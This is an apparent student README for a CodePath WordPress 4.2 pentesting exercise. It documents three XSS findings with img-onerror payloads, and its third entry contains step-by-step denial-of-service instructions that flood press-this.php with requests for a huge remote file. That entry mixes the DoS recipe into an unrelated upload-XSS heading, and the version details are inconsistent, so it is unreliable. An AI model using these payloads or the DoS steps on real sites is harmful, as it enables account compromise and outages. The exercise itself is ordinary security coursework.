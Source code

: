 # Codepath-week7-assignment
this is the codepath week 7 assignment
# Project 7 - WordPress Pentesting

Time spent: **infinity** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [x] Summary: XSS in Media
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.7.5
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: I NO JOKE FOUND THIS ONE MYSELF
  when you cant find a page there is a wordpress search bar for which you can type in almsot any XSS code and get it to run

1. (Required) Vulnerability Name or ID
  - [ ] Summary: Post XSS
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.16
  - [ ] GIF Walkthrough: https://github.com/mcp352/Codepath-week7-assignment/blob/master/26853F0C-8FF8-45CD-A293-118BEDE1A3D8.GIF
  - [ ] Steps to recreate: be an admin on a wordpress site and make a new (malicious) post that contains <img src=a onerror=(1)>

1. (Required) Vulnerability Name or ID
  - [ ] Summary: large File Upload Error XSS
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: I would post a GIF walkthrough but I do not have an external server
  - [ ] Steps to recreate: On an external server, create a large text file with the command:
perl -e 'print "<>"x28000000' > foo.txt

Next, create a file called dos.html on the external server with enough entries to fill the connection pool of the WordPress server, as follows:
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=c'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=d'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=e'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=f'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=g'>
[..]
(replace <wp server> with the WordPress server address and <external server> with the external server)

Now have a logged in admin visit dos.html. The server will be down for a while.
  Create a 20MB file called arbitrary_name<img src=x onerror=alert(1)>.png
  go to your wordpress site and drag-n-drop or use the selectfile button
  an error will appear and say exceeds max file upload size and show a prompt
  - [ ] Affected source code:



## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [SnagIt].

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2017] [Chase Pounders]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

